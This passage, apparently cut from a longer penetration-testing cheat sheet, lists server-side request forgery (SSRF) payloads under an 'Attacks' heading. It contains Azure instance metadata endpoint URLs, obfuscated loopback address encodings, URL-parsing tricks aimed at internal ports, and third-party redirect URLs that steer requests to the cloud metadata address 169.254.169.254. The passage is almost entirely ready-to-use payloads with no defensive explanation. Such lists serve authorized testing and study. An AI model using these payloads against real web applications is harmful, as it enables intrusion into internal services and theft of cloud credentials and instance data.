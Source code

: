             ```
            
        - Azure
            
            ```jsx
            <http://169.254.169.254/metadata/v1/maintenance>
            <http://169.254.169.254/metadata/instance?api-version=2017-04-02>
            <http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text>
            
            ```
            
    - Open redirect (SSRF)
        - Attacks
            
            ```jsx
            # Check if you're able to enum IP or ports
            127.0.0.1
            127.0.1
            127.1
            127.000.000.001
            2130706433
            0x7F.0x00.0x00.0x01
            0x7F.1
            0x7F000001
            
            # Quick URL based bypasses:
            http://google.com:80+&@127.88.23.245:22/#+@google.com:80/
            http://127.88.23.245:22/+&@google.com:80#+@google.com:80/
            http://google.com:80+&@google.com:80#+@127.88.23.245:22/
            http://127.88.23.245:22/?@google.com:80/
            http://127.88.23.245:22/#@www.google.com:80/
            
            # 301 responses:
            https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg
            https://ssrf.localdomain.pw/img-without-body-md/301-http-.i.jpg
            https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg
            https://ssrf.localdomain.pw/img-with-body-md/301-http-.i.jpg
            
            # 301 json:
            https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json
            https://ssrf.localdomain.pw/json-without-body-md/301-http-.j.json
            https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json
            https://ssrf.localdomain.pw/json-with-body-md/301-http-.j.json
            
            # 301 csv:
            https://ssrf.localdomain.pw/csv-without-body/301-http-169.254.169.254:80-.c.csv
            https://ssrf.localdomain.pw/csv-without-body-md/301-http-.c.csv
            https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv
            https://ssrf.localdomain.pw/csv-with-body-md/301-http-.c.csv
            